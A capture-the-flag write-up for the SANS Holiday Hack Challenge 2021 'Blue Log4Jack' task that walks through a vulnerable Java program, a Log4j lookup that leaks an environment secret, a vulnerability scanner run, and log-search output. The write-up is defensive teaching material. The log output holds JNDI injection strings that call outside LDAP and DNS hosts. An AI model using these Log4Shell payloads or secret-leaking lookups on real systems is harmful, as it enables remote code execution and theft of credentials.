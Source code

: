 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
# 14. Bonus! Blue Log4Jack
The objective is to demonstrate, patch and provide advice on the recent Log4Jack vulnerability.

## 14.0. Hints
**Log4j Talk** - *Bow Ninecandle*: “Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.”
**Log4j Search Script** - *Bow Ninecandle*: “Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!”
**Log4j Remediation** - *Bow Ninecandle*: “[Clearing Log4j issues](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) from systems.”
**Log4J at Apache** - *Bow Ninecandle*: “Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet”

### 14.1. Solution
The shell walks through the compilation and exploiting of the vulnerable “DisplayFilev2” java program:
```java
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

Below a local exploitation of the vulnerability:
```bash
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${java:version}'
12:27:14.110 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${env:APISECRET}'
12:27:44.523 [main] ERROR DisplayFilev2 - Unable to read file pOFZFiWHjqKoQaRhNYyC (make sure you specify a valid file name).
```

The shell then uses log4j-scan to identify vulnerable java applications:
```bash
elfu@33580ab650ea:~/vulnerable$ log4j2-scan /var/www/solr/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: /var/www/solr/ (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/server/lib/ext/log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 102 directories and 1988 files
Found 2 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.34 seconds
```

Also it uses the script logshell-search to observe IOCs in `/var/log/www` logs:
```bash
elfu@33580ab650ea:~/vulnerable$ logshell-search.sh /var/log/www/
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

---
# [2. Where in the World is Caramel Santiaigo?](README.md)
# [2.1. Side Challenge - Exif Metadata](README.md)
# [3. Thaw Frost Tower's Entrance](README.md)
# [3.1. Side Challenge - Grepping for Gold](README.md)
# [4. Slot Machine Investigation](README.md)
# [4.1. Side Challenge - Logic Munchers](README.md)
# [5. Strange USB Device](README.md)
# [5.1. Side Challenge - IPv6 Sandbox](README.md)
# [6. Shellcode Primer](README.md)
# [6.1. Side Challenge - Holiday Hero](README.md)
# [7. Printer Exploitation](README.md)
# [7.0. Description](README.md)
# [8. Kerberoasting on an Open Fire](README.md)
# [8.1. Side Challenge - HoHo … No](README.md)
# [9. Splunk!](README.md)
# [9.1. Side Challenge - Yara Analysis](README.md)
# [10. Now Hiring!](README.md)
# [10.1. Side Challenge - IMDS Exploration](README.md)
# [11. Customer Complaint Analysis](README.md)
# [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
# [12. Frost Tower Website Checkup](README.md)
# [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
# [13. FPGA Programming](README.md)
# [13.1. Side Challenge - Frostavator](README.md)
# [14. Bonus! Blue Log4Jack](README.md)
# [15. Bonus! Red Log4Jack](README.md)
---
# [0. windovo\\thedead> whoami](../README.md)
# [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
# [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
# [17. Narrative](../README.md#17-narrative)
# [18. Conclusions](../README.md#18-conclusions)